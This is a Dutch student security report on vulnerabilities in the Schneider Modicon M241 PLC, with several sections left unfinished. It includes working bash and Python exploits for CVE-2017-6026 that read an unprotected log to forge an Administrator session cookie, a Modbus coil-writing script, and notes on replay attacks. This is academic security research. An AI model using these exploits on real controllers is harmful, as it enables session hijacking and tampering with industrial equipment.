




# Schneider M241 #

<style>td {min-width: 130px;}</style>



Project door: Matti Bijnens, Remco Hofman, Stan van Wieringen

|                   |                                                 |
| ----------------- | ----------------------------------------------- |
| Afstudeerrichting | Computer & Cyber Crime Professional             |
| Module            | Project IV (CCCP)                               |
| Opdracht          | Onderzoeken naar zwakheden in de Schneider M241 |
| Lectoren          | Tijl Deneut, Hendrik Derre                      |
| Academiejaar      | 2018-2019                                       |

<!-- break -->
<div style="page-break-after: always;"></div>

## Woord vooraf ##

Voor ons security-project onderzoek kregen we de kans om met echte industriële hardware te werken. Meer specifiek hebben wij gewerkt met de Schneider Modicon M241 en de bijbehorende software. Dit verslag is het resultaat van ons onderzoek en bevindingen.

Graag danken wij onze lectoren voor het mogelijk maken van dit onderzoek en het ter beschikking stellen van de nodige apparatuur.

Dit document is geschreven in markdown.

Matti Bijnens, Remco Hofman, Stan van Wieringen

## Samenvatting ##

We hebben onderzoek gedaan naar vulnerabilities in de Schneider Modicon M241 software. Alles wat te maken heeft met het flashen, programeren en commands sturen naar de PLC via de "SoMachine" software.

Hiernaast hebben wij met behulp van Wireshark de communicatie tussen de PLC en SoMachine onderschept en pogingen gedaan om het protocol te analyseren. We botsten tegen een muur toen we zagen dat we meerdere PLC's nodig hadden om hierin verder te geraken.

<!-- break -->
<div style="page-break-after: always;"></div>

## Inhoudsopgave ##

<!-- toc -->

- Verklarende woordenlijst
- Intro
- Technische details
- Verderzetting onderzoek vorig jaar
- Protocol
  - Schneider Protocol
    - Ping command
    - Discovery protocol
    - Start/stop command
  - modbus
- Decompile
- Action log
- Besluit
- Bronnen
- Tools
- Bijlagen
  - CookieCruncher-reloaded
  - Trello

<!-- tocstop -->

<!-- break -->
<div style="page-break-after: always;"></div>

## Verklarende woordenlijst ##

| woord         | betekenis |
| ------------- | --------- |
| PLC           | Een programmable logic controller is een elektronisch apparaat met een microprocessor. In de industrie worden machines over het algemeen hiermee aangestuurd. Daarom zijn ze een belangrijk onderdeel in de automatisering.|
| SoMachine | |
| Replay attack | Een replay-aanval (ook bekend als afspeelaanval) is een vorm van netwerkaanval waarbij een geldige gegevensoverdracht kwaadwillig of frauduleus wordt herhaald of vertraagd. |
| Cross site scripting attack | |

## Intro ##

Het ontwerpen en schrijven in Schneider's SoMachine software voor de besturing van industriële machines en installaties is goed en wel maar heeft dit security risico's? Deze beveiliging kan van levensbelang zijn. Als hackers bijvoorbeeld het stop-commando kunnen nabootsen, dan zou de werkvloer stilgelegd kunnen worden.

Wij hebben de opdracht gekregen om onderzoek te doen op deze software waarmee de PLC geprogrammeerd wordt.
We hebben de Schneider Modicon 241 toegewezen gekregen en hebben de afgelopen maanden dit zitten onderzoeken.

## Technische details ##

- Prijs: $823
- Serie: Modicon M241
- Type: TM241CE40R
- Merk: Schneider Electric
- Software: SoMachine
- MAC: 00-80-F4-0B-24-E0
- Server: Wind River 4.8
- Standaard IP = 10.10.36.224
- De laatste 2 nummers van het IP zijn de decimale waarde van de laatste 2 hex bytes van het MAC-adres.



<!-- break -->
<div style="page-break-after: always;"></div>

## Verderzetting onderzoek vorig jaar ##

Vorig jaar werd een fout gevonden in de generatie van de sessiecookie.
In hun exploit werd gesteund op het feit dat via SNMP de opstarttijd van de PLC kon worden opgevraagd, echter hadden ze ze daar een tiental requests voor nodig omdat die tijd niet accuraat was.

Vroeg in het bekijken van de web-interface van de M241 ontdekten we dat de logfiles onbeschermd waren en dat hierin WEL het exacte tijdstip in stond.

Als POC schreven we snel een kort shellscript om deze fout uit te buiten.

``` bash
#!/bin/bash

# Exploits CVE-2017-6026 to calculate the administrator's cookie from accessible log files.
# Usage: ./CVE-2017-6026.sh [ADDRESS]

echo "M258_LOG=Administrator:\
$(wget -qO- ${1}/usr/Syslog/PlcLog.txt\
| grep "Network interface * registered"\
| tail -n1\
| cut -d',' -f1)"
```

Als uitbreiding schreven we ook een Python script om cross-platform te werken. U kan deze code vinden in de bijlagen, gezien de grotere omvang van deze file. Uiteraard is ze ook beschikbaar via github.

Kort na het schrijven van deze scripts is op exploitdb een exploit van onze lector, Tijl Deneut, uiteindelijk gepubliceerd. Ook zijn exploit maakt gebruik van de publiek leesbare logfiles om de sessiecookie te berekenen.

<!-- break -->
<div style="page-break-after: always;"></div>

## Protocol ##

### Schneider Protocol ###

#### Ping command ####

...

#### Discovery protocol ####

...

#### Start/stop command ####

...

### modbus ###

We found some weird behaviour when sending modbus commands to the PLC. The device only executes modbus commands when in **STOP mode**. Besides that, the docs noted that the device does not support the write_coil function (5). This meant we couldn't use tools like mbtget.
Fortunately the device does support write_coils(15). We wrote a script that flashes the output leds one by one.

``` python
from pymodbus.client.sync import ModbusTcpClient
import time

client = ModbusTcpClient('172.20.3.40')
client.write_coil(1, True)
wait = 0.2
min = 4
max = 16
incr = 4
cur_relay = min
coil_amount=4
while True:
    client.write_coils(cur_relay, [True]*coil_amount)
    time.sleep(wait)
    client.write_coils(cur_relay, [False]*coil_amount)
    time.sleep(wait)
    cur_relay += incr
    if cur_relay >= max:
        cur_relay = min
```

<!-- break -->
<div style="page-break-after: always;"></div>

## Decompile ##

We kwamen er al redelijk snel achter dat de SoMachine software suite in .NET geschreven was.
Dankzij DotPeek (JetBrains) konden we op een zeer overzichtelijke manier naar de source code kijken.



Helaas wordt er constant naar andere DLL's gerefereerd in de code.
Hierdoor is het een hele opgave om tot de kern van een functie te komen. Een aantal van de DLL's hadden dezelfde filename als hun namespace. Hierdoor konden we ze makkelijk vinden op ons filesysteem.

<!-- break -->
<div style="page-break-after: always;"></div>

Eens een DLL is ingeladen en volledig gedcompileerd is, kon je doormiddel van een CTRL + Click steeds verdergaan in de code. Totdat je weer op een niet-ingeladen DLL stuit. Om dit probleem te verhelpen hebben we doormiddel van een script alle DLL's verzameld in 1 enkele map.

``` bash
find . -name '*.dll' -exec cp {} /home/matti/dlls \;
```

Nadien hebben we deze DLL's allemaal laten decompileren door DotPeek. Zoals te verwachten nam dit veel tijd in beslag.



Het navigeren door de code is wel veel handiger / sneller als je gewoon kunt doorclicken. Helaas waren er nog steeds stukken code die we niet gevonden hebben.

<!-- break -->
<div style="page-break-after: always;"></div>

## Action log ##

| datum            | log                                    |
|:---------------- |:-------------------------------------- |
| 18 oktober 2018  | Alle benodigde software geïnstalleerd. |
| 25 oktober 2018  | Licentie in orde gebracht en connectie gemaakt met de PLC. |
| 5 november 2018  | Voormiddag software & firmware updates laten runnen. De al reeds gevonden vulnerabilities uitgetest op de webinterface van de PLC. Logs kunnen bekeken worden zonder authenticatie.|
| 6 november 2018  | Met behulp van SoMachine een programma geschreven en op de PLC geflashed. (AtomBomb.proj, zie bijlage) |
| 7 november 2018  | Met Wireshark zoveel mogelijk ping-commando UDP packets gecaptured. Gelukt om een replay attack uit te voeren door de ping-commando pakketjes na te bootsen en hierdoor oneindig de lampjes van de PLC te laten knipperen. |
| 8 november 2018  | Onderzoek gedaan of het mogelijk is om het stop-commando te reverse engineeren. Gevonden dat de PLC enkel om de 9-10 seconden een antwoord verstuurd op een update-request broadcast. |
| 15 november 2018 | In SoMachine vonden we een optie om het programma op de PLC te verwijderen. Ook deze UDP-pakketjes hebben we gecaptured en proberen te ontcijferen. |
| 22 november 2018 | De hele dag proberen een replay attack te creëren van het stop-commando. |
| 29 november 2018 | Gelukt om de lampjes aan te spreken via Modbus. Werkt enkel als de PLC in "stop-mode" staat, niet in "run-mode". |
| 06 december 2018 | Op de web interface zagen we dat de configuratie-bestanden plain javascript zijn. Er dus een mogelijkheid tot een cross site scripting attack. |
| 13 december 2018 | Alle documentatie en notities verzameld om later te verwerken naar de finale documentatie.|
| 17 december 2018 | |
| 18 december 2018 | |
| 19 december 2018 | |
| 20 december 2018 | |
| 21 december 2018 | |

## Besluit ##

...

<!-- break -->
<div style="page-break-after: always;"></div>

## Bronnen ##

Word-document. Project S5: Industrial security 2017-18. Geraadpleegd op 18 oktober,  
*Niet publiek beschikbaar*

PDF. Modicon M241 Logic Controller, Hardware Guide. Geraadpleegd op 25 oktober,  
*[https://download.schneider-electric.com/files?p_enDocType=User+guide&p_File_Name=EIO0000001456.07.pdf&p_Doc_Ref=EIO0000001456](https://download.schneider-electric.com/files?p_enDocType=User+guide&p_File_Name=EIO0000001456.07.pdf&p_Doc_Ref=EIO0000001456)*

PDF. Modicon M241 Logic Controller, Programming Guide. Geraadpleegd op 25 oktober,  
*[https://download.schneider-electric.com/files?p_enDocType=User+guide&p_File_Name=EIO0000001432.07.pdf&p_Doc_Ref=EIO0000001432](https://download.schneider-electric.com/files?p_enDocType=User+guide&p_File_Name=EIO0000001432.07.pdf&p_Doc_Ref=EIO0000001432)*

Webpagina. Logic Controller - Modicon M241. Geraadpleegd op 25 oktober,  
*[https://www.schneider-electric.be/nl/product-range/62129-logic-controller---modicon-m241/](https://www.schneider-electric.be/nl/product-range/62129-logic-controller---modicon-m241/)*

PDF. Schneider - Modbus for machines with Modicon logic controllers. Geraadpleegd op 5 november,  
*[http://download.schneider-electric.com/files?p_enDocType=Catalog&p_File_Name=DIA3ED2160106EN.pdf&p_Doc_Ref=DIA3ED2160106EN](http://download.schneider-electric.com/files?p_enDocType=Catalog&p_File_Name=DIA3ED2160106EN.pdf&p_Doc_Ref=DIA3ED2160106EN)*

PDF. Schneider - Ethernet for machines. Geraadpleegd op 5 november,  
*[http://download.schneider-electric.com/files?p_enDocType=Catalog&p_File_Name=DIA3ED2160105EN.pdf&p_Doc_Ref=DIA3ED2160105EN](http://download.schneider-electric.com/files?p_enDocType=Catalog&p_File_Name=DIA3ED2160105EN.pdf&p_Doc_Ref=DIA3ED2160105EN)*

Github. CookieCruncher. Geraadpleegd op 5 november,  
*[https://github.com/DewitteNick/cookieCruncher](https://github.com/DewitteNick/cookieCruncher)*

Github. CVE-2017-6026-SessionHijack. Geraadpleegd op 5 november,  
*[https://github.com/tijldeneut/ICSSecurityScripts](https://github.com/tijldeneut/ICSSecurityScripts)*

Webpagina. Scapy documentation. Geraadpleegd op 6 november,  
*[https://scapy.readthedocs.io/en/latest/](https://scapy.readthedocs.io/en/latest/)*

Webpagina. Ladder logic. Geraadpleegd op 6 november,  
*[https://en.wikipedia.org/wiki/Ladder_logic](https://en.wikipedia.org/wiki/Ladder_logic)*

<!-- break -->
<div style="page-break-after: always;"></div>

## Tools ##

SoMachine
> SoMachine is software dat wordt gebruikt om de meeste Schneider-controllers te programmeren.

SNMP Bulkwalk
> snmpbulkwalk is een SNMP-toepassing die SNMP GETBULK-verzoeken gebruikt om efficiënt een netwerkentiteit voor een informatiestamboom te ondervragen.

Pymodbus
> Pymodbus is een Modbus-protocolimplementatie die gebruik maakt van twisted voor zijn asynchrone communicatiekern.

<!-- break -->
<div style="page-break-after: always;"></div>

## Bijlagen ##

### CookieCruncher-reloaded ###

``` python
#!/usr/bin/python3
import re
import sys
from urllib.request import urlretrieve
import urllib.error


def printhelp():
    helpmsg = 'USAGE: {} HOST\n\n  Version: 0.1\n  About: A tool to help exploit CVE-2017-6026\n'.format(
        sys.argv[0])
    print(helpmsg)


def findinterfaceregister(file: str = 'PlcLog.txt'):
    last = ''
    for line in open(file, 'r'):
        if re.search('Network interface <interface>USB</interface> registered', line):
            last = line
    return last


def getlogdate(line: str):
    return line.split(',')[0]


def buildcookie(t: str, user: str = 'Administrator'):
    return '{}:{}'.format(user, t)


def main():
    try:
        if sys.argv[1].lower() in ['-h', '--help']:
            printhelp()
            exit(1)
        url = 'http://{}/usr/Syslog/PlcLog.txt'.format(sys.argv[1])
    except (ValueError, IndexError):
        printhelp()
        exit(1)

    urlretrieve(url, 'PlcLog.txt')
    line = findinterfaceregister()
    t = getlogdate(line)
    print(buildcookie(t))


if __name__ == '__main__':
    main()
```

### Trello ###

plz add snip